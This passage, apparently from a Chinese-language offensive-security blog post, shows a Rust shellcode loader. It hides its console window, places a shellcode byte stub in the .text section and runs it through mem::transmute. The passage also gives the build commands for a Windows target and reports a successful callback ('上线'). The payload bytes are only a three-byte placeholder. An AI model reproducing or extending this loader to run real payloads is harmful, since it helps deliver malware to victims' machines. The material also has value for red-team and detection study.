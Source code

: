 ```plain
#![windows_subsystem = "windows"]

fn main() {



    #[link_section = ".text"]
    static shellcode: [u8; 3] = [ 0xfc, 0x48, 0x83];  // shellcode

    let shellcode_ptr: *const u8 = &shellcode as *const u8;

    unsafe {
        let exec_shellcode = std::mem::transmute::<*const u8, fn()>(shellcode_ptr);
        exec_shellcode();

    }

}
```

这段是比较基础的shellcode，其中使用了==mem::transmute==来执行了我们的shellcode  
之后指定编译的平台为==x86\_64-pc-windows-msvc==

```plain
rustup default nightly-x86_64-pc-windows-msvc
```

编译

```plain
cargo build --release
```

之后运行上线

[![](assets/1699257255-11b921388204d1bb8f821a916b3ed68e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232118-cd2d5790-7b25-1.png)

可以看到上线成功

## windows的api
